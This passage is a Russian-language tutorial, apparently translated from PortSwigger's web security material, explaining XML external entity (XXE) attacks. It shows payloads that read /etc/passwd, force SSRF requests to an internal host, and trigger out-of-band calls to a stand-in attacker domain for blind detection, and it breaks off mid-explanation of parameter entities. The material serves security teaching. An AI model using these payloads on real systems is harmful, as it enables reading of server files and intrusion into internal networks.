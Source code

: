 ## Эксплуатация XXE для получения файлов

Например, приложение для покупок проверяет уровень запасов продукта, отправляя на сервер следующий XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

Можно использовать уязвимость XXE для получения файла /etc/passwd, передав следующую полезную нагрузку XXE: 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

В реальном мире XXE-уязвимости часто содержат большое количество значений данных в представленном XML, любое из которых может быть использовано в ответе приложения. Для систематического тестирования на XXE-уязвимости, как правило, необходимо проверить каждый узел данных в XML по отдельности, используя определенную сущность и проверяя, появляется ли она в ответе.

## Эскплуатация XXE для проведения атак SSRF

В следующем примере XXE внешний объект заставит сервер выполнить внутренний HTTP-запрос к внутренней системе в инфраструктуре организации:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

## Слепые XXE

[Finding and exploiting blind XXE vulnerabilities](https://portswigger.net/web-security/xxe/blind)

### Обнаружение слепых XXE с помощью внеполосных методов (OAST)

Часто можно обнаружить слепой XXE, используя ту же технику, что и для атак XXE SSRF, но инициируя внеполосное сетевое (out-of-band) взаимодействие с подконтрольной системой:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

Эта XXE-атака заставляет сервер выполнить внутренний HTTP-запрос к указанному URL. Атакующий может проследить за результирующим DNS-поиском и HTTP-запросом и таким образом обнаружить, что XXE-атака была успешной.

Иногда XXE-атаки с использованием обычных сущностей блокируются из-за некоторой проверки ввода приложением или некоторого ужесточения используемого парсера XML. В такой ситуации вместо них можно использовать сущности параметров XML. Сущности параметров XML - это особый вид сущностей XML, на которые можно ссылаться только в других местах DTD. Для настоящих целей вам нужно знать только две вещи. Во-первых, объявление сущности параметра XML включает символ процента перед именем сущности:
